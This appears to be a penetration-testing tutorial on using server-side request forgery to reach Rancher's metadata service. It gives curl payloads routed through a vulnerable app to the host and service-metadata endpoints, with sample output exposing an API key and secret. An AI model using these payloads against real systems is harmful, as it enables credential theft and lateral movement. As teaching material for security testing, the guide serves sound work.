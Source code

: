 ```yaml
---
title: Exploiting Rancher Metadata Service via SSRF
description: Learn how to exploit Rancher metadata services through SSRF for sensitive
  data extraction and potential lateral movement.
keywords:
- Rancher
- SSRF
- metadata service
- container orchestration
- data extraction
- vulnerability exploitation
- Rancher API
- sensitive data
- Rancher security
---
```


# Rancher

## Context

In this article, we explore the exploitation of Rancher's metadata service via Server-Side Request Forgery (SSRF) attacks. The goal is to extract sensitive data that can potentially allow further lateral movement or privilege escalation. To fully benefit from this guide, readers should have a good understanding of HTTP protocol mechanics, container orchestration fundamentals, general metadata service exploitation, and SSRF attack principles.

## Theory

### Rancher Metadata Service Architecture

Rancher's metadata service provides vital runtime information about containers, hosts, and services to workloads within a Rancher-managed ecosystem. The service is accessible over HTTP at `http://rancher-metadata/` from all containers managed by Rancher. This architecture allows containers to query this metadata API for valuable information regarding environment, service, and credentials.

### Rancher Metadata API Structure and Access

The Rancher metadata API is versioned, such as `/2015-07-25/`, offering various structured metadata endpoints. An attacker can exploit these endpoints via SSRF techniques to access data. Within the container network, these metadata services lack authentication and network isolation, making them a prime vulnerability point for malicious activity.

### Sensitive Data Exposure via Rancher Metadata

The metadata exposed by the Rancher service can include API keys, service credentials, environment variables, and orchestration details, all of which are critical information. Through successful SSRF exploitation, an attacker can extract such data, paving the way for lateral movement within the network or gaining escalated privileges.

## Practice

### SSRF to Rancher Metadata Service for Sensitive Data Extraction

- **Identify Vulnerable Point**: Begin by identifying a SSRF injection point in a web application hosted within a Rancher-managed container. This is often found as a user-controllable URL parameter or HTTP header capable of triggering server-side HTTP requests.

- **Payload Targeting Host Information**:
  ```http
  http://rancher-metadata/2015-07-25/self/host
  ```

  **Command Execution**:
  ```bash
  curl -s 'http://<vulnerable-app>/fetch?url=http://rancher-metadata/2015-07-25/self/host'
  ```
  When executed, this command exploits the SSRF vulnerability to relay a request to the Rancher metadata service.

  **Expected Output**:
  ```json
  {
      "name": "host1",
      "hostname": "host1.example.com",
      "labels": { ... },
      ...
  }
  ```

- **Payload Targeting Service Metadata**:
  ```http
  http://rancher-metadata/2015-07-25/self/service/metadata
  ```

  **Command Execution**:
  ```bash
  curl -s 'http://<vulnerable-app>/fetch?url=http://rancher-metadata/2015-07-25/self/service/metadata'
  ```
  This command is used to further extract service metadata through the SSRF vulnerability.

  **Expected Output**:
  ```json
  {
      "api_key": "RANCHER_API_KEY",
      "secret": "RANCHER_SECRET",
      ...
  }
  ```

These commands demonstrate how an attacker can utilize SSRF to access Rancher's metadata, thereby retrieving sensitive details like API keys or secrets, potentially leading to further network compromise.

## Tools

- **curl**
- **Burp Suite**

Using these tools, a skilled practitioner can identify and exploit SSRF vulnerabilities effectively within Rancher-managed environments, accessing metadata that could be critical for further actions.